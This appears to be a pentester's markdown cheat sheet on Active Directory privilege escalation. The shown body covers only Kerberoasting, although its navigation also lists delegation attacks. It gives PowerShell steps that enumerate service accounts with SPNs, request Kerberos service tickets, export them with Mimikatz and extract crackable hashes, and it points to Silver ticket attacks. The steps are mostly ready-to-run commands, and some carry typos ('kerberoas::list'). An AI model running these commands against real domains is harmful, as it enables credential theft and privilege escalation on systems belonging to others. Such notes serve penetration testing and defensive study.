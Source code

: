 # Domain Privesc
---
# Navigation
- **[Kerberoast](#Kerberoast)**
	- [Users With SPN](#Users%20With%20SPN)
	- [AS-REPs](#AS-REPs)
	- [Set SPN](#Set%20SPN)
- **[Unconstrained delegation](#Unconstrained%20delegation)**
	- [Definition](#Definition)
	- [Attack](#Attack)
- **[Constrained delegation](#Constrained%20delegation)**
	- [Definition con](#Definition%20con)
	- [Attack](#Attack)
- **[Further reading](#Further%20reading)**
>**Important:**
>[Synchronizing time is important](Kerberoas#Synchronizing%20time%20is%20important)
---
# Kerberoast
## Users With SPN
1. Find user accounts used as service accounts.
```powershell
#Powerview module
Get-NetUser -SPN
#ActiveDirectory module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
2. Request a `TGS`.
```powershell
#ActiveDriectory module
Add-Type -AssemblyName system.IdentityModel
New-Object system.IdentityModel.Tokens.kerberosRequestorsecurityToken -ArgumentList "<ServicePrincipleName>"
```
3. Confirm that we have the `TGS` in memory.
```powershell
klist
```
4. Save the `TGS` to disk.
```powershell
Invoke-Mimikatz -command '"kerberoas::list /export"'
```
5. Get the hash.
```powershell
#Powerview
Request-SPNTicket
```
> **NOTE:**
> Service tickets can be used for Silver ticket attacks
> [[4-Domain persistence#Silver Ticket]]
